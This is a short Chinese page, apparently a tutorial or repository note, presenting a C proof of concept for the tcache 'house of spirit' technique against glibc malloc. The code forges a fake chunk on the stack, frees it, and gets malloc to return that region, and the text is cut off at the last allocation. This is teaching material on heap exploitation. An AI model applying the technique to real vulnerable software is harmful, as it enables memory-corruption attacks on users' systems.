 # 简介
[PWN入门（3-17-1）-Tcache Attack中的house of spirit（基础）](https://www.yuque.com/cyberangel/rg9gdm/pmskct)

这种攻击方式之前我们说过，在这篇文章中我们深入研究一下。

# 漏洞影响版本
所有开启glibc malloc的版本

# POC
```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
	setbuf(stdout, NULL);

	printf("This file demonstrates the house of spirit attack on tcache.\n");
	printf("It works in a similar way to original house of spirit but you don't need to create fake chunk after the fake chunk that will be freed.\n");
	printf("You can see this in malloc.c in function _int_free that tcache_put is called without checking if next chunk's size and prev_inuse are sane.\n");
	printf("(Search for strings \"invalid next size\" and \"double free or corruption\")\n\n");

	printf("Ok. Let's start with the example!.\n\n");


	printf("Calling malloc() once so that it sets up its memory.\n");
	malloc(1);

	printf("Let's imagine we will overwrite 1 pointer to point to a fake chunk region.\n");
	unsigned long long *a; //pointer that will be overwritten
	unsigned long long fake_chunks[10]; //fake chunk region

	printf("This region contains one fake chunk. It's size field is placed at %p\n", &fake_chunks[1]);

	printf("This chunk size has to be falling into the tcache category (chunk.size <= 0x410; malloc arg <= 0x408 on x64). The PREV_INUSE (lsb) bit is ignored by free for tcache chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
	printf("... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
	fake_chunks[1] = 0x40; // this is the size


	printf("Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
	printf("... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");

	a = &fake_chunks[2];

	printf("Freeing the overwritten pointer.\n");
	free(a);

	printf("Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
	void *b = malloc(0x30);
```